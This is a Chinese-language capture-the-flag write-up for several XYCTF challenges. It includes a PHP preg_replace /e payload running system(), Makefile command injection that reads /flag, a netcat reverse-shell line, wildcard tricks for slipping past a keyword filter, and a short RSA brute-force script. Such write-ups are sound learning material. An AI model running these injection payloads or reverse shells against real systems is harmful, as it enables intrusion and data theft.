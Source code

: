 ### Game

把图片丢到谷歌搜索里，找到一个游戏叫Papers Please。

### 熊博士

很容易看出置换规则，flag里面的内容小写。

```
XYCTF{LIU_YE_MEI_YOU_XIAO_JJ}
```

### ZZL的护理小课堂

把flag的判断逻辑丢到控制台修改后运行，就可以直接把flag吐出来。

### Warm up

一道PHP绕过的问题，前面是弱类型比较问题，后面是preg_replace函数执行系统命令，正则匹配可以用数组绕过。

参考：https://www.cnblogs.com/-chenxs/p/11593878.html

```
GET：a=/(.*)/e&b=system('ls /')&c=ab
POST：a[]=1
```

### ezmd5

找两张md5一样的图片上传可以解决，参考[文件夹](/Notes/web/2pic_with_same_md5)。据说可以用fastcoll.exe生成，程序在我star里有，别人的介绍：

<img src="./assets/fastcoll.png" style="zoom: 33%;" />

### ezMake

这里目前知道三种方法

```shell
直接在链接后加/flag下载flag文件
echo可以使用	echo $(shell cat /flag)或者echo $(<flag)
利用报错输出	$(<flag)或者$$(<$<)	目前还不清楚原理
```

### ez?Make

据说可以nc反弹shell，但是我没有成功

```shell
 nc ip port -e sh		再到本地对应端口开启监听
 cd ..&&cd ..&&cd ..&&pwd		常用的命令被ban了，先cd到根目录
 more [!-z][!-z][!-z][!-z]		再进行查看文件操作，[!-z]相当于匹配所有的字符、符号数据，即可查看flag文件内容
 其中匹配flag可以将[!-z]替换成[e-h][k-m][^-b][e-h]
```

用more指令查看php源代码如下：

```php
<?php
function waf($cmd) {
if (preg_match('/\n|\r|f|l|a|g|\?|\*|\;|\/|source|SOURCE|\$|\@/',$cmd)){
return false;
}
return $cmd;
}
$cmd = waf($_GET['cmd']);
if ($cmd === false) {
echo json_encode(array('makefileContent' => 'failed', 'output' => 'no'));
} else {
$makefileContent = <<<EOD
SHELL := /bin/bash
.PHONY: FLAG
FLAG: /flag
\t$cmd
EOD;
if (file_put_contents('Makefile', $makefileContent) !== false) {
$command = "make -f Makefile 2>&1";
$output = shell_exec($command);
echo json_encode(array('makefileContent' => $makefileContent, 'output'
=> $output));
} else {
echo json_encode(array('makefileContent' => 'failed', 'output' =>
'failed'));
}
}
?>
```

### happy to solve1

q是$2^{512}$-p的下一个质数，那么p+q就比$2^{512}$大一点，所以我们可以暴力破解phi。

```python
from Crypto.Util.number import *
import gmpy2
n = 24852206647750545040640868093921252282805229864862413863025873203291042799096787789288461426555716785288286492530194901130042940279109598071958012303179823645151637759103558737126271435636657767272703908384802528366090871653024192321398785017073393201385586868836278447340624427705360349350604325533927890879
c = 14767985399473111932544176852718061186100743117407141435994374261886396781040934632110608219482140465671269958180849886097491653105939368395716596413352563005027867546585191103214650790884720729601171517615620202183534021987618146862260558624458833387692782722514796407503120297235224234298891794056695442287
flag = True
phi = n - 2**512
e = 65537
while flag:
    d = gmpy2.invert(e, phi)
    result = pow(c, d, n)
    print(d)
    if long_to_bytes(result).startswith(b"XYCTF{"):
        print(long_to_bytes(result))
        flag = False
    phi -= 1
```

